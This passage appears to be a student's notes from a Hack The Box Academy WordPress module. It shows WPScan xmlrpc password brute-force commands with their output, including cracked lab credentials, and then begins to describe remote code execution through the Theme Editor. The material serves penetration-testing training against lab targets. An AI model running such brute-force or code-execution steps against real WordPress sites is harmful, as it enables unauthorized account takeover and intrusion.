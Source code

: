 We have successfully validated the vulnerability using the data generated in the `WPScan` report. Now let's try it out ourselves!

# Attacking WordPress Users

## WordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website: `admin`, `roger`, and `david`. The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it is faster.

#### WPscan - XMLRPC

```shell
gitblanc@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

>[!Example]
>The Academy's exercise from this section.

I'll execute the following command:

```shell
wpscan --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt --url http://83.136.253.25:52593

[redacted]
| Username: roger, Password: lizard
```

# Remote Code Execution (RCE) via the Theme Editor

## Attacking the WordPress Backend

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.
